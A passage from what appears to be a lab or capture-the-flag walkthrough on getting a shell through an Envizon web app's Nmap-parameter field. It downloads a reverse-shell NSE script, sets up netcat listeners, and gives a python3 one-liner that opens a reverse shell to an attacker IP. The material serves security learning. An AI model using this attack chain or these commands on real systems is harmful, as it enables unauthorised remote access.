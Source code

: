 Then click the cup icon and check the terminal where the Python HTTP server is running to see the GET request for 'test' and confirm the file download. The file isn't there so it returns a 404 error:
![a535b273ed91b4b44fb3cdd81bf5d292.png](/resources/60a9b6c74d354214a04d1e7c44175313.png)

To get a reverse shell, we can use this [NSE script](https://github.com/SurajDadral/nmap-reverse-shell/blob/main/reverse_shell.nse) by Suraj Dadral. Save it to the directory that the Python HTTP server is hosting.

Then to download it to the victim machine, change the Nmap parameter from `-p 8080 --script http-fetch --script-args http-fetch.destination=/tmp/test,http-fetch.url=test` to `-p 8080 --script http-fetch --script-args http-fetch.destination=/tmp/reverse_shell,http-fetch.url=reverse_shell.nse`

In the Python HTTP server terminal we should see `"GET /reverse_shell.nse HTTP/1.1" 200`, which means the file transfer has succeeded.

Before we can run the NSE script we have to set up two listeners on the attacker machine. Exit the Python HTTP server so we can use port 8080 again. Then open another terminal for the second listener:

Main terminal for the reverse shell:

```
$ nc -nvlp 8080
```

Secondary terminal on another open port to let the Nmap scan succeed:

```
$ nc -nvlp 1234
```

Back to the Envizon web application, we run another manual scan with the Nmap Parameters `-p 1234 --script /tmp/reverse_shell/<ATTACKER_IP>/8080/reverse_shell.nse`, attacker IP in the Target field and anything for the Name field:
![59c96c49598d6f0bb5cee0f08b824d88.png](/resources/acbde9de610d4eeeb79f8b2cd50195db.png)

And on the attacker machine in the terminal that is listening on port 8080, we get a connection from the victim machine:
![26893f966119e24c12395f1889507076.png](/resources/8821a2ab9c5c4e738b08540fd4609cdc.png)

The current shell we are in is limited and cannot traverse directories. We need to start another `nc` listener on the attacker machine then use a `python3` stable shell one-liner on the victim machine to connect to it:

On the attacker machine open a new terminal and listener:

```
$ nc -nvlp 4444
```

On the victim machine:

```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
